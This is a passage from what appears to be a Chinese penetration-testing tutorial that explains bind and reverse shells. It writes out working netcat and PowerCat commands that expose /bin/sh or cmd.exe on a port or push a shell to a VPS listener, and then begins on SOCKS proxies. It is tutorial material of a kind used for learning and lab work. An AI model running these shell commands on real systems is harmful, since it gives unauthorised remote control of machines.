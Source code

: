 如果客户端连接服务器，客户端想要获取服务器的Shell，就称为**正向Shell**：
首先监听目标主机的4444端口
```bash
nc -lvp 4444 -e /bin/sh
nc -lvp 4444 -e c:\windows\system32\cmd.exe
```
![](https://img-blog.csdnimg.cn/3ab48dc5308549a4827379c5c17e87ca.png)
然后在本地连接目标主机的4444端口
```bash
nc 192.168.111.131 4444
```
![](https://img-blog.csdnimg.cn/2607be56abb142afb7dd85aa98152703.png)

如果客户端连接服务器，服务器想要获取客户端的Shell，就称为**反向Shell**：
在本地或者VPS主机上监听本地9999端口
```bash
nc -lvp 9999
```
![](https://img-blog.csdnimg.cn/2dab3bd2b1b942db984c5c2146db789f.png)
在目标主机中连接VPS主机的9999端口
```bash
nc 192.168.111.133 9999 -e /bin/sh
nc 192.168.111.133 9999 -e c:\windows\system32\cmd.exe
```
![](https://img-blog.csdnimg.cn/ff88c393a13b4f7a8f994e4845f1a7c5.png)


#### PowerCat
[https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)
PowerCat是一个PowerShell写的tcp/ip瑞士军刀，可以说是nc的PowerShell版本，然后里面也加入了众多好用的功能，如文件上传，smb协议支持，中继模式，生成payload，端口扫描等等
首先导入`Import-Module .\powercat.ps1`，然后执行`powercat -h`
![](https://img-blog.csdnimg.cn/a457b81e66e64bddadf05ea316d77b0d.png)
**通过nc正向连接PowerCat**
```bash
powercat -l -p 8080 -e cmd.exe -v
```
![](https://img-blog.csdnimg.cn/34abf4c3238b4deda5fc3967380da98d.png)
**通过nc反向连接PowerCat**，-c 参数用于提供想要连接的IP地址
```bash
powercat -c 192.168.111.133 -p 8888 -v -e cmd.exe
```
![](https://img-blog.csdnimg.cn/99c0e70a8c0d423492e8d22bd53fc095.png)

>-l：监听模式，用于入站连接
-p：指定监听端口
-e：指定要启动进程的名称
-v：显示详情



### Socks代理
Socks是一个客户/服务器环境的代理协议。是一种网络传输协议，主要用于客户端与外网服务器之间通讯的中间传递，分为socks 4和socks 5两种类型，socks 4只支持TCP协议而socks 5支持TCP/UDP协议，还支持各种身份验证机制等协议。其标准端口为1080
